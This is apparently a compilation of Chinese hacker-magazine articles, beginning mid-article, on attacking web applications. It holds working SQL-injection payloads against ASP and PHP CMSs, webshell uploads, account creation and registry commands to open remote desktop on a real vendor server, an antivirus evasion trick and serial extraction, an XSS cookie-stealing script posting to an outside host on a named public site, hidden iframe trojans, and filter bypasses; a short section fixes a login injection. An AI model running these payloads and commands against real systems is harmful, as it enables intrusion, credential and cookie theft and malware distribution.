    sql="Select * from ms_news where id="&Request.QueryString("id")
    Set rs=Server.CreateObject("ADODB.RecordSet")
    rs.Open sql,connstr,1,1
%>
```

从代码中很容易理解，首先是定义一个子过程 modifynews() 函数，以便随时调用，而函数主体代码变量 id 直接由 GET 方式获取，没有经过任何函数过滤，就放入记录集中进行 SQL 查询，从而造成注入漏洞。既然漏洞已经产生，我们就来实际测试一下。对于简单的注入，我就直接交给了啊D，可是发现啊D竟然报这个注入点不能注入。看来靠工具是不成了，还是自己手工来吧。

首先在地址栏中输入 `and exists(select * from ms_admin)` 来判断是否存在“ms_admin”表，返回正常，说明存在 ms_admin 表。接下来用 order by 语句判断字段长度，直到“order by 24”返回正常，说明字段长度为 24，再用联合查询来暴密码和账户，执行 `and 1=2 union select 1,2,3,adminname,5,6,adminpass,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24 from ms_admin` 成功暴出密码和账户，如图2所示。


后来我在看其他文件的时候，又发现除了管理新闻这里存在漏洞外，管理图片也存在同样的漏洞，user_pic.asp 文件中的部分代码如下。

```asp
<%
Sub modifypic()
    sql="Select * from ms_pic where id="&Request.QueryString("id")
    Set rs=Server.CreateObject("ADODB.RecordSet")
    rs.Open sql,connstr,1,1
%>
```

这套 CMS 系统除了这两个漏洞外都很安全，可惜千里之堤，溃于蚁穴。拿到账户和密码进入后台发现功能很强大，有数据库备份和上传功能，还可以直接执行 SQL 命令。在上传设置选项中添加个 ASP，如图3所示。再回到前台上传 ASP 木马，就可拿到 WebShell 了。


## 网络测试

本想对安徽大学思科网络学院做测试的，结果后台找不到，就放弃了，在网络上找了一个“湖南湘潭设计艺术家协会”站点来测试，和本地演示一样，注册用户后发布文章，直接执行 SQL 命令，很轻松地暴出了账户和密码，让我大跌眼镜的是：密码和账户竟然是默认的 admin 和 admin888，可见这个网站的管理员连最基本的安全知识都不具备。进入后台，添加 ASP 后缀名来上传 ASP 木马，同样也可以利用备份数据库获得 WebShell。我这里直接上传 ASP 木马就拿到了 WebShell，如图4所示。


拿到 WebShell 后发现权限比较小，只能在站点目录下跳转，但是可以执行 CMD 命令，没有将 wscript.shell 组件去掉。由于本站是在政府站点下建的子目录，所以我就没有再继续下去。文章写到这里就结束了，最后祝大家在新的一年里技术更进一步。

前置知识：JSP

关键词：JSP语言、FCKeditor、提权

## JSP提权再品

## DOS刀耕火种年代

文／图 Cschi


农业最早是火种，使用石制或铁制工具砍伐树木，焚烧后直接在火燎上播种，这便是刀耕火种。但是农业机械现代化的普及，这种原始的农业耕作技术已逐渐消失了。就像计算机的 DOS 操作系统，随着操作系统发展到如今完美的视窗界面时，逐渐被人们淡忘一样。然而对我们 70 年代的朋友来说，对 DOS 还是情有独钟的，是它让我们知道了什么是“命令”、“内部命令”、“外部命令”，掌握了基本的概念如“目录”、“根目录”、“子目录”、“当前目录”、“上级目录”、“路径”、“绝对路径”、“相对路径”，了解了数据在（软、硬）磁盘中是如何存储的，等等。这些足以令我们无法舍弃它！

我常常恼火有人对 Windows 最基本的复制粘贴操作都很混乱！在我看来不是因为他们迟钝——他们玩起游戏，我可真望尘莫及，而是因为他们不清楚“路径”、“目录”的概念，经常因为“找不到地儿”而发呆，浏览文件夹不知道当前在哪！看得我除了恼火，就是劝其恶补 DOS 了。你可以不以为然，但你不能否认 DOS 的基础地位，正像假如没有刀耕火种，就不会有现代农业的高速发展，有谁会否认刀耕火种的重要呢？又有谁会嘲讽原始社会的这种耕作方式呢？

虽然刀耕火种俗称是“种一偏坡，收一箩箩”，但是我们今天就是要用这种方法来完成 JSP 下的提权，获得远程桌面的管理员权限！

## 挂马

某天正当我在网上搜索 OA 时，QQ群中有人推销恩信科技产品，同时给了演示网址 http://aspdemo.nseer.com，于是登录进去体验了一番。总体感觉是功能设置比较全面，可是当我通过“我的网站->反馈信息->我要留言”进行留言时，如图1所示，无意间发现了该系统存在严重的上传漏洞！


图1

首先点 FCKeditor 的“插入/编辑图像”按钮，使用弹出的网页对话框直接上传，失败，提示“Invalid file type”（无效的文件类型）；但是点网页对话框中的“图像”项的“浏览服务器”按钮，不但可以用浏览服务器的上传目录，同时可以不受限制地上传文件，如图2所示。

于是上传海洋一句话——shell.asp，上传后发现文件大小为 0，一句话一般是不会被杀毒软件追杀的，难道是文件太小呢？于是给 shell.asp 文件尾部增加若干注释行并更名为 server.asp，再次上传后，成功！赶紧用客户端连接，结果很失望——并没有出现熟悉的海洋登录界面！难道真的被杀软绞杀了？查看源码，一句话并没有被修改或删除！如图3所示，这时我才注意到一句话好像没有被解析执行，因为一句话被服务器解释执行后返给浏览器的源码应该如图4所示才对，这说明该服务器并不解析 ASP！

## 脚本攻防 / SCRIPT ATTACK&DEFENCE


通过上面的信息，我对该服务器初步判断为 JSP+Apache Tomcat+MySQL，于是上传 JSP 木马，原本想使用黑防网站下载的 hack520 专用 JSP 木马（http://www.hacker.com.cn/down/download.asp?id=4873&urlid=1），但是此木马竟被瑞星报杀！后面还会提到此马的瑞星免杀。不得已找个杂客基地专用 JSP 木马，其实这两个马只不过是包装不同而已，功能基本相同！上传后，登录，如图5所示，挂马成功。


## 提权

使用 JSP 木马的“系统命令”功能，执行“cmd.exe /c dir d:\”命令成功，如图6所示。这里需要说明的是，由于 JSP 中使用 runtime.exec(cmd) 执行命令，所以凡 DOS 的内部命令（不要告诉我你不知道什么是 DOS 内部、外部命令）前必须加“cmd.exe /c”，否则会提示“bad command”，此外，当参数不符合 DOS 的 8.3 形式时应使用双引号。


执行命令成功后，直接添加用户并提升到管理员组，分别执行“net user nseer$ 123456 /add”和“net localgroup administrators nseer$ /add”，成功，如图7所示，赶紧连接远程桌面，然而却提示出错，难道没有开启远程桌面？或者是内网服务器？


使用命令“tasklist /svc”发现远程桌面服务“TermService”已经启动，这时记下该服务进程的 PID 值 688，如图8所示，然后执行命令“netstat -ano”，可以得知 PID 值为 688 的进程打开了 1353 端口，看来管理员修改了远程桌面的连接端口！这里需要说明的是，Windows 2000 不支持“o”参数，我们除了使用“cmd.exe /c ver”准确获知系统版本外，还可以借“netstat”是否支持“o”参数简单判断系统是 Windows 2000 还是 Windows 2003。


图8

我们再来判断是否是内网服务器，执行“ipconfig /all”，如图9所示，该服务器网卡绑定的 IP 正是外网 IP，很显然此服务器并没有加硬件防火墙，不处于内网之中，因为一般内网服务器网卡绑定的 IP 为私有地址。


图9

最后使用 1353 端口和刚才添加的管理员登录成功，如图10所示，如果就此打住，就太没内涵了，也难满足自己对 DOS 的虚荣心，假如管理员禁用了“TermService”服务呢？


图10

使用“net start TermService”命令开启“TermService”服务是有条件的，就是“Terminal Services”服务的启动方式必须是自动或手动，若为禁用，则执行该命令就会出错。关闭远程桌面最直接的方法就是停止并禁用“Terminal Services”服务，所以我们必须通过注册表修改该服务的启动方式，常用的命令如下：

- 1. **Regedit.exe 命令**
  - 导出注册表：`Regedit /E D:\1.reg "需要导出的注册表项名称"`
  - 导入注册表：`Regedit /S D:\1.reg`
  - 说明：`D:\1.reg` 为导出或导入的文件名；若不符合 DOS 8.3 格式或含空格等特殊符号可使用双引号。
- 2. **Reg.exe 命令**（可通过 `/?` 查看帮助，功能更强）
  - 查询注册表：`Reg.exe Query`
  - 添加或修改：`Reg.exe Add`
  - 说明：`ROOTKEY` 可用 `HKEY_LOCAL_MACHINE` 等完整名称；参数 `/f` 可不提示强制改写现有注册表项。

与远程桌面有关的注册表项如下。

```text
1) “TermService”服务的启动方式

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService
"Start"=dword:00000002
```

说明：2－自动，3－手动，4－禁用。

```text
2) 是否允许远程桌面连接

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server
"fDenyTSConnections"=dword:00000001
```

说明：0—允许，1—禁止。

3）远程桌面使用的端口：

```bash
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp
"PortNumber"=dword:00000d3d
```

说明“d3d”为十六进制，转换成十进制为 13*16^2+3*16+13=3389。“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rcpwd\Tds\tcp”的“PortNumber”值是客户端连接时的默认端口，对方服务器就不必修改了，你可以在自己机子上修改，这样连接时就不必再指定端口了。

具体的 DOS 语句如下：

- 1）查启动方式为“0x3”——手动，如图11所示。


图11

```bash
Reg.exe QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService" /v Start
```

- 2）查是否允许连接为“0x0”——允许，如图12所示。


图12

```bash
Reg.exe QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
```

- 3）查端口为“0x549”——1353（十进制），如图13所示。

```bash
Reg.exe QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber
```


图13

- 4）修改启动方式为“0x2”——自动。

```bash
Reg.exe Add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService" /v Start /t Reg_DWORD /d 0x2 /f
```

- 5）修改允许连接“0x0”。

```bash
Reg.exe Add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t Reg_DWORD /d 0x0 /f
```

我们同样可以修改远程桌面的端口——但这有点无赖，就免了吧。这比导出 reg 文件修改后再导入方便多了，当然，大量的修改导出就比较方便了。一般 Windows 2003 开启远程桌面只需要修改“fDenyTSConnections”值即可，无需重启，也与启动方式无关，所以通过注册表开启远程桌面连接时，就无需修改“TermService”服务的启动方式了，Windows 2000 需要重启，不做讨论。

我们再来确定一下当前用户权限。通过 JSP 木马“服务器信息”中可以得到当前用户名为“nseerglobalerp”，再使用“net user nseerglobalerp”可以了解到用户为系统管理员及上次登录时间等，如图14所示，由此我们断定当前为系统管理员权限！当然，我们也可以使用“net”命令添加新用户了。

这点也可以通过“tasklist /v”命令得到确认，如图15所示，“tasklist”是我们加载的进程，其对应的用户名的确是“G_G_-DQ2SQGCG1NTVW\nseerglobalerp”。我们也可以执行“cmd.exe /c cd %USERPROFILE%”后再执行“cmd.exe /c cd”，就会发现当前的用户目录为“D:\tomcat\bin”（其实通过 JSP 木马的“服务器信息”中也可以知道），这也说明了当前用户权限是继承了 TOMCAT 的用户权限。


图14

制作出安装包，下载到本机安装，当要求输入序列号时，使用 WinHex 打开“setup”的整个内存，然后查找文本“瑞星杀毒软件”（安装时选择了“中文”，如果选择的是“英文”，那么应该查找文本“Rising Antivirus”），在查找到的结果中便可以得到瑞星的序列号和用户ID，如图16所示。以后我们就可以使用此序列号和用户ID，随时登录瑞星“产品升级”网站下载安装文件或者升级文件了。


图16


图15

## 后记

修补漏洞。需要说明的是，我们提权的目的应该是探讨如何安全设置服务器，就像我们研究矛是为了进一步强化盾的防护能力一样。这台服务器首先因为存在上传漏洞，然后因为 JSP 权限过大，才导致我们长驱直入。所以防范的思路也就比较清楚了，删除 FCKeditor 的“浏览服务器”功能，然后修改 JSP 用户权限。笔者没有具体修改过 FCKeditor，所以采取了直接删除 `erp/editor/filemanager/browser/default/browser.html`（浏览服务器）以及 `erp/editor/filemanager/browser/default/frmupload.html`（上传）文件。至于如何修改 TOMCAT 和 JSP 的用户权限，如何绑定 Tomcat 和 IIS6，本文不做讨论。

顺手牵羊，下面我们来破解该服务器安装的瑞星杀毒软件序列号和用户ID。首先进入服务器后使用瑞星工具的“瑞星安装包制作程序”……

hack520 专用 JSP 木马的瑞星免杀。前面提到此马会被瑞星查杀，提示病毒名“Backdoor.JFolder.a”！由于 JSP 是文本格式，于是使用二分法检测，先删除 JSP 文件的后一半保存后，用瑞星查杀未发现病毒，如此重复，最后发现竟然只要删除文件尾部的如下代码：

```html
<td align="right">hack520 by <a href="mailto:hack520@77169.org">hack520</a> and welcome to <a href="http://www.77169.com" target="_blank">华夏黑客同盟</a></td>
```

瑞星就“傻”了，难道这就是所谓的“主动防御”？即使瑞星可能对此木马扫描了其他特征码，但它肯定使用了“and”的运算，否则不会出现如此“低级”的错误！记得自己曾使用 WinHex 将 JPG 文件头特征码“FF D8 FF”添加到海洋的文件开始处，瑞星同样“傻眼”了，但是却被卡巴查杀了！这里我不想就瑞星做过多的评论，只是提醒大家不要过多地相信和依赖工具，往往当较先进的技术无法解决的事，不妨试试原始的方法，说不定会柳暗花明呢，毕竟刀耕火种的原始方法是现代化技术的发源，我们不是常说要“追本溯源”吗？

前置知识：JSP

关键词：JSP语言，FCKeditor，提权

# C-Blog 注入漏洞再现


文/图 chun,liu

C-Blog V2.6 是 Coolsky 自主开发的基于 PHP+Smarty 模板引擎+ADODB 组件的小型单用户 Blog 程序，是个很不错的开源程序。大家可以通过搜索 Powered by C-Blog version 2.6 来看一下，用户还是不少的。这个 Blog 以前曾经发现了注入、跨站和后台轻易得到 WebShell 等比较严重的漏洞，经过作者修补后，我发现依然有新的注入漏洞存在。

## 查看用户信息 getInfo 函数注入

我们先看 `\modules\User.Class.php` 中的一段代码。

```php
/* 这是查看用户信息的函数 */
function getInfo($id)
{
    global $conn,$sqlnum,$_DCACHE;
    $sqlnum++;
    $rs = $conn->Execute("SELECT * FROM {$this->tblName} where id=".$id);
    // 此处的 $id 没有用单引号括起来
    if($rs && !$rs->EOF){
        return $rs->fields;
    }else{return false;}
}
```

我们再看看调用到这个函数的 `index.php` 文件中的代码。

```php
if(isset($_GET['do']))
{
    $action = checkSQL($_GET['do']);
    $_POST=checkSQL($_POST);
    switch($action){
        ......
    }
}
```

```php
case 'userinfo':
    if(isset($_SESSION['isLogin']) && $_SESSION['isLogin']){
        $user=new user();
        $info=$user->getInfo($_GET['id']);
        // 直接将 get 来的参数带入到了函数中
        $info['intro'] = ereg_replace("\n","<br/>",$info['intro']);
        $smarty->assign('info',$info);
        ajax_err($smarty->fetch("ajax_userinfo.html"),1);
    }else{
        ajax_err('登录以后才可查看用户信息');
    }
```

上面的分析已经很清楚了，我们在本机安装 C-Blog 来测试一下。提交如下代码：

```text
http://localhost/CBLOG/index.php?do=userinfo&id=-1%20union%20select%201,1,1,concat(0x5E305E,username,0x5f,password,0x5f,nickname,0x5f,power,0x5E305E),1,1,1,1,1,1,1%20from%20ctb_user/*
```

返回的信息如图1所示，成功得到了管理员的用户名和密码。

## 修改图片处的注入


图1

这个漏洞比较鸡肋，要有修改图片的权限才可以利用，原理和上面的漏洞完全一样。我们先看 `album.class.php` 中的代码。

```php
/* 获得图片的所有信息 */
function getOnepicInfo($id)
{
    global $conn,$sqlnum;
    $sqlnum++;
    $sql = "SELECT * FROM {$this->tblName} where id=$id"; // 同样是没有使用单引号将 $id 括起来
    $res = $conn->Execute($sql);
    ......
}
```

`album.php` 文件中修改图片信息时调用了这个函数，其相关代码如下。

```php
$action = $_GET["action"];
$edit = 0; // 上面编辑框是增加状态还是编辑状态
switch($action){
......
case "editpic":
    $aAlbum = $Album->getOnepicInfo($_GET["id"]);
    // 依旧是将 get 来的值直接代入函数中
......
break;
......
}
```

这个漏洞我们可以这样利用，提交如下语句：

```text
http://localhost/CBLOG/album/album.php?action=editpic&id=1%20and%201=2%20union%20select%201,concat(0x5E305E,username,0x5f,password,0x5f,nickname,0x5f,power,0x5E305E),3,4,5,6,7,8%20from%20ctb_user/*
```

结果如图2所示，图片的名字就是我们注入得到的密码，该密码是经过 MD5 加密的，破解出来的话，在后台可以直接上传 PHP 文件得到一个 WebShell。


图2

前置知识：无  
关键词：脚本、SQL注入、后台登录

# 构造并修复后台登录页面注入漏洞

文/图 冰域剑客

后台注入漏洞在 2005 年之前是非常普遍的，在 Google 里搜索后台登录页面，10 个里大概有 3 个可以成功登录。我不得不对 ASP 教材中普遍不讲怎样防注入的现象表示无语，但毕竟人家主要是讲怎样把程序写简洁明了，而不是以安全防护为目标的。下面我就给大家介绍一下构造并修复后台登录页面的注入漏洞。

## 构造漏洞

首先我们在文本中写一个表单，用以提交用户名和密码。用户名我们定义为 username，密码定义为 pass，密码信息提交给 login.asp 页面。因为是纯 HTML 代码，我就不贴出来了。运行之后的界面如图1所示。


接下来我们来写接收密码的页面。关键代码如下：

```asp
<%
username=request("username")
pass=request("pass")
set rs=server.createobject("adodb.recordset")
sql="select * from vip where username='"&username&"' and pass='"&pass&"'"
rs.open sql,conn,3,3
if rs.eof and rs.bof then
  response.redirect("index.html")
else
  response.write(username&"，欢迎你登陆系统")
end if
%>
```

```vbscript
check 的值变为 false
...
for i=1 to len(pass)
  if asc(mid(pass,i,1))=39 or asc(mid(pass,i,1))=61 or asc(mid(pass,i,1))=32 then
    check=false
  end if
next
if check=true then
  form1.submit
else
  msgbox "用户名和密码中有非法字符", vbcritical
end if
```

大家看到 `sql="select * from vip where username='"&username&"' and pass='"&pass&"'"` 这句没有对用户名和密码进行任何判断就直接放入数据库进行查询了，于是就造成了注入漏洞。我们用 `'or'='or'` 进行登录，如图2所示，登录成功。


## 修复漏洞

现在我们来修复漏洞，从两个方面着手：本地页面和接收页面。当然了，本地页面的过滤只是用来哄小朋友的，接收页面中的修复才是关键。

```vbscript
<script language=vbscript>
sub button1_onclick
  dim name,check
  check=true
  name=form1.username.value
  pass=form1.password.value
  for i=1 to len(name)
    if asc(mid(name,i,1))=39 or asc(mid(name,i,1))=61 or asc(mid(name,i,1))=32 then
      check=false
    end if
  next
  ...
end sub
</script>
```

运行结果如图3所示。这样的修复显然不能达到目的，因为别人可以修改本地页面，将这段脚本删除就可以实现注入了。所以我们接下来要进行接收页面的修复。


我们用同样的方法进行判断，有非法字符的话，就直接转向到登录页面。在查询语句之前加入下面的代码：

```asp
for i=1 to len(username)
  if asc(mid(username,i,1))=39 or asc(mid(username,i,1))=61 or asc(mid(username,i,1))=32 then
    response.redirect "index.html"
  end if
next
for i=1 to len(pass)
  if asc(mid(pass,i,1))=39 or asc(mid(pass,i,1))=61 or asc(mid(pass,i,1))=32 then
    response.redirect "index.html"
  end if
next
```

看完这段代码，大家有什么感触呢？是不是 VB 和 ASP 有太多相通的地方了？对！如果你已经有一定的 VB 基础了，学习 ASP 便只是熟悉一些语句的过程。总的来说，各种语言的程序思想都是相同的，希望大家掌握一两门编程语言，这样会有助于技术的进步。

关于后台页面注入漏洞的修复就这样简单了，当然，修复的方法很多，我这里是判断，其实也可以用 `replace` 进行替换，实现的功能是一样的。

- 前置知识：无
- 关键词：脚本、XSS、跨站

## 利用XSS在猫扑网“盗”Cookie挂马


文／图 人鱼姬

大家对猫扑网一定很熟悉吧？该网的注册会员早已超过千万，这样的网站出现了XSS，打击面可想而知。在大多数讲述XSS漏洞的文章中，一般都是演示使其跳出一个对话框，让很多人误以为这就是XSS漏洞，实际上这离真正的漏洞还差得很远。本文就将展现这些漏洞在猫扑网的具体应用。

利用XSS漏洞能做的事情大致有以下几个：“盗”Cookie（这样不用密码就能以该用户登录了）；挂马（不错哦，根本不用拿到WebShell）；引诱后台管理员进入圈套实现提权（开源网站面临的一大危险）；嵌入实现DOS的脚本（神不知鬼不觉地借刀杀人）。

## “盗”Cookie

猫扑网对XSS漏洞实际上早有防范，只是可以轻易绕过罢了。我们先在猫扑大杂烩的回帖处输入`<script>alert(document.cookie)</script>`测试一下，回帖之后发现被过滤了，这是意料之中的事，script、document、cookie分别被替换成了“脚本”、“文档”和“小甜饼”，如图1所示。


不过我们只需简单编码就可以绕过了，也就是在“&#”后加上该字符的十进制ASCII码，就可以被转为我们需要的字符了，如r就是“&#114”，e就是“&#101”……

这样我们就得到了如下代码，只需将其中个别字母编码使单词变样就行了，不用每个字母都编码。

```html
<s&#114ipt>alert(docum&#101nt.cooki&#101)</sc&#114ipt>
```

这里教大家一个技巧，找到自己的回帖，点击下面的自己的用户名就可以直接修改已经提交的回帖了。而修改自己回帖的过滤和直接回帖的过滤是不一样的，某些语句会在直接回帖处提示为垃圾帖不予发表，而修改却不会。


如图2所示，我们修改一个已经发表的回帖，刷新之后效果就出来了，弹出了一大片Cookie，如图3所示。


经过上面的测试，接下来就可以正式“盗”Cookie了。首先需要有一个ASP空间，上传一个ASP脚本，用来存储提交上来的Cookie。代码如下：

```asp
<%
testfile=Server.MapPath("cookie.txt")
msg=Request("m")
set fs=server.CreateObject("scripting.filesystemobject")
set thisfile=fs.OpenTextFile(testfile,8,True,0)
thisfile.WriteLine(""&msg&" ")
thisfile.close
set fs = nothing
%>
```

将提交上来的m变量存在cookie.txt里，用GET方式提交就行了。然后我们在网页里嵌入“`<script>document.location='http://www.xxx.com/x.asp?m='+escape(document.cookie)</script>`”。用户浏览该帖子时，不会有任何反应就把Cookie提交到我们的ASP空间了。提交上来的Cookie是escape函数编码的，用unescape解密就可以了。为了绕过过滤，我们还需将此代码处理、转换后在修改帖子处提交，即可在短时间内得到众多Cookie，如图4所示。


图4

unescape函数解密很简单，网上有很多这种现成的网页，搜索一下就可以了。至于修改Cookie的工具也很多，常用工具“跟小子”就可以做到。不过奇怪的是，虽然盗到了Cookie，但我却没有成功地以别人的身份进入网站。

一般在登录时选择了“自动登录”，之后上猫扑就不用每次都输密码了，这必是Cookie验证无疑，修改为别人的Cookie自然可以以别人的身份登录。我不知道哪里出了问题，而Cookie的格式以及每个变量代表的意义只有网站的程序员最清楚，我们只能根据变量名猜测；若有高手知道如何解决这个问题的话，欢迎到黑防论坛上指教一二。

看到这里，很多人可能会问，我是怎么知道的ASCII码是114呢？这里给大家介绍个工具——ASCII速查，输入汉字或字母字符都能转换为ASCII码，不过要注意的是，使用这个工具之前要设置一下需要的进制。

## 挂马

挂马这个问题不能小视，远比“盗”Cookie的危害大得多。挂马代码就用`<iframe src=http://www.baidu.com width=288 height=288></iframe>`，简单处理转换后再提交，即可见到效果，如图5所示。挂马的时候只要把长宽都设为0就行了。


图5

## URI欺骗

这个问题实际上不是XSS，这里也写出来说明一下。猫扑网的格局是：左边是帖子的题目，点击题目，右半边就是帖子内容，这样浏览帖子就不用打开新窗口了。大家注意看一下在未登录的情况下的URL，一般形如“http://dzh.mop.com/mainframe.jsp?url=http://......”，在另外的一些情况下，网址就是“http://dzh.mop.com/?url=http://......”，后面就是帖子的网址。我们这里将其修改为“http://dzh.mop.com/?url=http://www.baidu.com”，效果如图6所示，打开了以http://dzh.mop.com开头的网址，里面却包含了百度的网页，这可不是什么好事。现在，网站在服务器端常被利用的注入、远程文件包含、恶意下载等问题得到了广泛的重视，而在客户端发作的XSS看似危害不大，而实际上后患无穷的问题也应得到广大站长的注意。


图6

- 前置知识：无
- 关键词：脚本、注入、防注入系统

## 浅析SQL注入中的“绕”


文／图 减妹[U.L.S.T] @ 肇庆

随着SQL注入技术的迅速普及，网上出现了一批批防注入程序，这的确令大多数网站的安全性提高了一个层次。但是，如果防注入程序中出现了编写逻辑错误或者是一些疏忽，就会直接导致网站防线彻底崩溃！黑防论坛也置顶了关于如何绕过防注入系统和IDS的技术收集帖子。下面，我就来和大家讨论一下如何突破防注入系统。

首先来说说neeao编写的通用防注入3.1β版的一个小小缺陷！

前段时间，网上一直说neeao的“通用防注入3.1β版”能被一些注入软件绕过。究竟原因是什么呢？在“SQL通用防注入3.1β版”中，Neeao_SqlIn.asp文件用了“`<SCRIPT Language="VBScript" runat="server">`”来替代“`<%`”和“`%>`”，作者的目的本来是为了解决兼容性的问题，但正是由于这样，导致了一个小缺陷的产生。那么，这个小缺陷是什么呢？作者用了一段JS代码替代了“`<%`”和“`%>`”，由于JS代码是基于客户端的，不被服务器所解析，所以，当防注入系统检测到某个人试图入侵网站，发出警告并封锁其IP后，入侵者同样能利用工具进行注入，并不受防注入系统封锁IP的限制！

一年前，我在研究了多套防注入系统后，曾发表了用“or”来突破防注入系统的文章。当时有很多网站程序都是自身写了一个防注入函数，而这个函数仅仅过滤了“'”和“and”，所以就引发了我用“or”来注入的想法。or注入的方法相信很多朋友都在我的《假是真时真是假——or注入教程》这篇文章中掌握了，但是，有些朋友总是问我究竟原理是什么，为什么结果为真的时候返回的是错误页面，而结果为假的时候返回的是正确页面，这里我就和大家讲一下“or”注入原理。

首先，假设一个注入点的地址为“http://www.xxxx.com.cn/news.asp?id=3”，我们输入“http://www.xxxx.com.cn/news.asp?id=3 or 1=1”返回的是错误页面，输入“http://www.xxxx.com.cn/news.asp?id=3 or 1=2”的时候返回的是正确的页面……

为什么会这样呢？我们简单地构想一下它的SQL语句，应该是这样写的：`select new from news where id=request('id')`。而`http://www.xxxx.com.cn/news.asp?id=3`则是这样查询的`select new from news where id=3`，这样查询得到的结果的值为真。若我们提交`http://www.xxxx.com.cn/news.asp?id=3 or 1=1`，则查询语句为`select new from news where id=3 or 1=1`，因为“真 or 真=真”，所以返回的是错误页面；而`...id=3 or 1=2`的查询语句为`select new from news where id=3 or 1=2`，“真 or 假=真”，所以返回的就是正常页面。

当然，如果你不喜欢“真为假、假为真”的话，可以把id变为一个不存在的数据，如`http://www.xxxx.com.cn/news.asp?id=9999999`，这样`or 1=1`返回的就是正常页面，而`or 1=2`返回的就是错误页面了！接下来我们来看一段防注入系统的代码。

```vb
Case "1"
Response.Write "<Script Language=JavaScript>alert('参数 '&Fy_Cs(Fy_x)&' 不存在。请勿非法攻击网站！');window.close();</Script>"
Case "2"
Response.Write "<Script Language=JavaScript>location.href='"&Fy_Zx&"'</Script>"
Case "3"
Response.Write "<Script Language=JavaScript>alert('参数 '&Fy_Cs(Fy_x)&' 不存在。请勿非法攻击网站！');location.href='"&Fy_Zx&"';</Script>"
End Select
Response.End
End If
End If
Next
%>
```

大家仔细看看代码，这个防注入系统只是通过`request.servervariables("QUERY_STRING")`来接收数据，而接收来的字符串是什么样就怎么样，所以如果我们对变量或注入字符进行编码的话，就可以很轻松地绕过这套防注入系统了！例如对变量`id`编码后`%69%64`最终会被转换为`id`，从而绕过。我们也可以对注入字符编码，如把`select`变为`s%65lect`，系统只认得`select`而不认得`s%65lect`，于是就放行了。

```vb
<%
Dim Fy_Url,Fy_a,Fy_x,Fy_Cs(),Fy_Cl,Fy_Ts,Fy_Zx
Fy_Cl = 2
Fy_Zx = "error.asp"   ' 出错时转向的页面
On Error Resume Next
Fy_Url=Request.ServerVariables("QUERY_STRING")
Fy_a=split(Fy_Url,"&")
redim Fy_Cs(ubound(Fy_a))
For Fy_x=0 to ubound(Fy_a)
  Fy_Cs(Fy_x)=left(Fy_a(Fy_x),instr(Fy_a(Fy_x),"=")-1)
Next
For Fy_x=0 to ubound(Fy_Cs)
  If Fy_Cs(Fy_x)<>"" Then
    If Instr(LCase(Request(Fy_Cs(Fy_x))),"'")<>0 Or Instr(...,"and")<>0 Or Instr(...,"select")<>0 Or ... Then
      Select Case Fy_Cl
```

我们再来看看以下这套防注入系统的部分代码。

```vb
<%
dim sql_injdata
SQL_injdata = "'|and|exec|insert|select|delete|update|count|*|%|chr|mid|master|truncate|char|declare"
SQL_inj = split(SQL_Injdata,"|")
If Request.QueryString<>"" Then
  For Each SQL_Get In Request.QueryString
    For SQL_Data=0 To Ubound(SQL_inj)
      if instr(Request.QueryString(SQL_Get),Sql_Inj(Sql_DATA))>0 Then
        Response.Write "<script language=javascript>alert('参数中包含非法字符');history.back(-1)</Script>"
```

```asp
Response.end
end if
next
Next
End If
If Request.Form<>"" Then
  For Each Sql_Post In Request.Form
    For SQL_Data=0 To Ubound(SQL_inj)
      if instr(Request.Form(Sql_Post),Sql_Inj(Sql_DATA))>0 Then
        Response.Write "<script language='javascript'>alert('参数中包含非法字符！');history.back(-1)</Script>"
        Response.end
      end if
    next
  next
end if
%>
```

这套防注入系统过滤很多我们注入的时候常常用到的关键字“'、and、exec、insert、select、delete、update”等，代码上貌似也没有什么问题，但是仔细看看程序判断是否是非法字符的语句：

```asp
For SQL_Data=0 To Ubound(SQL_inj)
  if instr(Request.QueryString(SQL_Get),Sql_Inj(Sql_DATA))>0 Then
```

发现了吗？没错，这套防注入系统在判断提交过来的数据是否是非法字符时，忘了将数据转换成小写！因为这套程序定义的危险字符都是小写，所以我们提交注入语句的时候，只要把危险字符变成大写就可以躲过这套防注入系统了！如把select变成seleCt，程序就检测不出危险了！

有时在无法突破的情况下，我们可以尝试去挖掘新的方式来突破防注入系统，再来看看以下这个例子。

文件一的部分代码：

```asp
<!--#include file="fzr.asp" -->
Dim action,s,id
id=request("id")
conn.execute("update cnk_Users_RxMsg set reade=1 where id="&id)
' 设置已读
rs.open "select * from cnk_users_RxMsg where id="&id,conn,1,3
```

文件二（即调用的文件fzr.asp）的部分代码：

```asp
<%
Dim Fy_Post,Fy_Get,Fy_In,Fy_Inf,Fy_Xh,Fy_db,Fy_dbstr
Dim fso1,all_tree2,file1,files,filez,fs1,zruserip
If Request.QueryString<>"" Then
  Fy_In = "'|%|*|and|exec|insert|select|delete|update|count|chr|mid|master|truncate|char|declare|script"
  Fy_Inf = split(Fy_In,"|")
  For Each Fy_Get In Request.QueryString
    For Fy_Xh=0 To Ubound(Fy_Inf)
      If Instr(LCase(Request.QueryString(Fy_Get)),Fy_Inf(Fy_Xh))<>0 Then
        zruserip=Request.ServerVariables("HTTP_X_FORWARDED_FOR")
        if zruserip="" Then zruserip=Request.ServerVariables("REMOTE_ADDR")
        Response.Write "内容含有非法字符！请不要有'或and或or等字符"
        Response.Write "如果是攻击网站，系统记录了你的操作！"
        Response.Write "操作IP："&zruserip
        Response.Write "操作时间："&Now&"<br>"
        Response.Write "操作页面："&Request.ServerVariables("URL")&"<br>"
        Response.Write "提交方式：GET<br>"
        Response.Write "提交参数："&Fy_Get&"<br>"
        Response.Write "提交数据："&Request.QueryString(Fy_Get)
      End If
    Next
  Next
End If
%>
```

